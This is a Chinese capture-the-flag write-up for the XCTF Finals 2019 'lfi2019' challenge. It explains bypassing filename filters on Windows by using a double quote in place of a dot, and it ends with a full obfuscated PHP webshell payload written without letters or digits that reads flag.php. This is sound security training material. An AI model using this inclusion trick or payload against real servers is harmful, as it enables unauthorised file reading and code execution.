








复现靶机网址：https://buuoj.cn
源码：https://github.com/stypr/my-ctf-challenges/tree/master/XCTF_Finals_2019/lfi2019
参考：https://xz.aliyun.com/t/6655
lfi2019
这题源码审计下来，虽然长，但是其实很多都是无关紧要的，核心的功能其实就是一个put上传文件，一个get包含上传的文件
下面是整理后的核心代码块：
（1）实现get，put功能所需参数代码：

（2）get功能块：

（3）put功能块：

（4）过滤函数：

抛开无用的代码，思路其实就很明确了
首先利用Put功能上传一个马，上传时有两层过滤：
（1）上传的文件名不能包含：['.', './', '~', '.\\', '#', '<', '>']中的字符
（2）上传的内容处理：preg_replace("/[^<>!@#$%\^&*\_?+\.\-\\\'\"\=\(\)\[\]\;]/u", "*Nope*", (string)$code);，即不能包含数字字母
上传后，利用Get功能包含我们上传的马，包含的过滤：
（1）include的文件名不能包含：['.', './', '~', '.\\', '#', '<', '>']中的字符
（2）include文件前的限制：
1 | $read_file = "./files/" . $this->filename; |
也就是说，我们输入的filename经过path_sanitizer(true)函数处理后，必须和源文件名不同，即必须包含/和\其中的一个字符
而且，file_get_contents读取到的文件内容也必须不同
如果是正常的linux服务器，我们可以本地测试一下，随便写入一个test文件，内容为___，然后试着包含test\

逐步一下输出结果看看，发现经过path_sanitizer(true)函数处理后的./files/test，是可以读取到文件内容，而原来的文件名./files/test\读取不出内容，虽然能执行到include（返回success），但是，因为读取不到文件内容，所以没有结果
测试其他的都可以发现，正常linux服务器下，是无法成功包含的，而此题特殊在是一个windows服务器
windows下使用FindFirstFile这个API（执行include，file_get_contents）时，有一个trick：会把双引号字符"解释为点字符.
测试如下：

我们就可以利用这个trick，上传test文件，然后读取文件名设置为："/test
1 | $read_file = "./files/./test"; |

可以看到，此时已经成功读取
最后，只需要绕过文件内容的过滤写shell即可，不包含数字字母，很自然想到P神的文章：一些不包含数字和字母的webshell
最后的payload：
1 | =$_=[];$_="$_";$_=$_[("!"=="!")+("!"=="!")+("!"=="!")];$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___=$_;$___++;$___++;$___++;$___++;$____=$_;$_____=$_;$_____++;$_____++;$_____++;$______=$_;$______++;$______++;$______++;$______++;$______++;$__=$__.$___.$____.$_____.$______;$___=$_;$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;$____=$_;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____=$_;$_____++;$_____++;$_____++;$_____++;$__=$__.$___.$____.$_____;$___=$_;$___++;$___++;$___++;$___++;$___++;$____=$_;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____=$_;$______=$_;$______++;$______++;$______++;$______++;$______++;$______++;$___=$___.$____.$_____.$______;$____=$_;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$____++;$_____=$_;$_____++;$_____++;$_____++;$_____++;$_____++;$_____++;$_____++;$___=$___.'.'.$____.$_____.$____;$__($___); |
执行内容：readfile('flag.php');

这里要注意：传入的要记得对+进行URL编码一下，不然会在URL中+代表%20